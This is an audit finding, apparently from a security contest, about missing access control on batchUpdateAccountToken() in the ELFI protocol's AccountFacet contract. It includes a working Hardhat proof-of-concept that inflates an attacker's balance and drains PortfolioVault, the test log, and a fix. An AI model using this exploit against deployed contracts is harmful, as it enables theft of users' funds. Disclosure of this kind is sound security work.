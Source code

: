 Narrow Olive Kookaburra

high

# The ````PortfolioVault```` could be drained

## Summary
````AccountFacet.batchUpdateAccountToken()```` is missing access control, anyone can use it to modify any account's balance directly. Causing all funds in ````PortfolioVault```` to be drained.

## Vulnerability Detail
As shown of L68\~L71 of ````AccountFacet.sol````, there is no access control. Attackers can call it to increases their account' balance and then call ````createWithdrawRequest()```` to steal all funds held by ````PortfolioVault````.
```solidity
File: contracts\facets\AccountFacet.sol
68:     function batchUpdateAccountToken(AssetsProcess.UpdateAccountTokenParams calldata params) external override {
            // @audit no access control?
69:         AddressUtils.validEmpty(params.account); 
70:         AssetsProcess.updateAccountToken(params);
71:     }

```
The following PoC shows the details how this would happen:
```typescript
import { expect } from 'chai'
import { Fixture, deployFixture } from '@test/deployFixture'
import { AccountFacet, ERC20, RoleAccessControlFacet } from 'types'
import { HardhatEthersSigner } from '@nomicfoundation/hardhat-ethers/signers'
import { ethers } from 'hardhat'
import { precision } from '@utils/precision'

describe('batchUpdateAccountToken() bug test', function () {
    let fixture: Fixture
    let keeper: HardhatEthersSigner
    let attacker: HardhatEthersSigner
    let diamondAddr: string
    let roleAccessControlFacet: RoleAccessControlFacet
    let accountFacet: AccountFacet
    let WETH: ERC20
    const ROLE_KEEPER = ethers.encodeBytes32String('KEEPER')

    beforeEach(async () => {
        fixture = await deployFixture()
        const {wallet, user0, user8} = fixture.accounts
        keeper = user0
        attacker = user8
        diamondAddr = await fixture.diamond.getAddress()
        const getFacet = <T>(name: string) => ethers.getContractAt(name, diamondAddr) as Promise<T>
        roleAccessControlFacet = await getFacet<RoleAccessControlFacet>('RoleAccessControlFacet')
        accountFacet = await getFacet<AccountFacet>('AccountFacet')

        const { portfolioVaultAddr } = fixture.addresses
        const { weth } = fixture.tokens
        WETH = weth
        WETH.connect(wallet).transfer(portfolioVaultAddr, precision.token(1_000))
        WETH.connect(wallet).transfer(attacker, precision.token(1));
    })

    it('Test draining fund from PortfolioVault', async function () {
        let isKeeper = await roleAccessControlFacet.hasRole(keeper, ROLE_KEEPER)
        expect(isKeeper).to.equals(true)

        isKeeper = await roleAccessControlFacet.hasRole(attacker, ROLE_KEEPER)
        expect(isKeeper).to.equals(false)

        // 1. deposit some WETH to active account
        let balance = await WETH.balanceOf(attacker)
        expect(balance).to.equals(precision.token(1))
        await WETH.connect(attacker).approve(accountFacet.getAddress(), precision.token(1))
        await accountFacet.connect(attacker).deposit(WETH.getAddress(), precision.token(1))
        balance = await WETH.balanceOf(attacker)
        expect(balance).to.equals(0)

        // 2. call batchUpdateAccountToken() to increase 1000 WETH balance
        const params = {
            account: attacker.address,
            tokens: [WETH.getAddress()],
            changedTokenAmounts: [precision.token(1_000)]
        }
        await accountFacet.connect(attacker).batchUpdateAccountToken(params)

        // 3. initiate withdrawal request
        await accountFacet.connect(attacker).createWithdrawRequest(WETH.getAddress(), precision.token(1_000))

        // 4. keepers monitor and execute withdrawal
        const oracleParams = [
            {
                token: WETH.getAddress(),
                targetToken: ethers.ZeroAddress,
                minPrice: precision.price(4_000, 8),
                maxPrice: precision.price(4_000, 8)
            }
        ]
        await accountFacet.connect(keeper).executeWithdraw(1112, oracleParams)

        // 5. PortfolioVault's fund drained
        balance = await WETH.balanceOf(attacker)
        expect(balance).to.equals(precision.token(1_000))
    })

})
```

And the test log:
```solidity
2024-05-elfi-protocol\elfi-perp-contracts> npx hardhat test .\test\single-cases\BugBatchUpdateAccountToken.test.ts


  batchUpdateAccountToken() bug test
...
config common end
    ✔ Test draining fund from PortfolioVault (289ms)


  1 passing (15s)
```

## Impact
All funds in ````PortfolioVault```` could be drained

## Code Snippet
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/main/elfi-perp-contracts/contracts/facets/AccountFacet.sol#L68

## Tool used

Manual Review

## Recommendation
```diff
    function batchUpdateAccountToken(AssetsProcess.UpdateAccountTokenParams calldata params) external override
+    RoleAccessControl.checkRole(RoleAccessControl.ROLE_KEEPER);
        AddressUtils.validEmpty(params.account);
        AssetsProcess.updateAccountToken(params);
    }
```
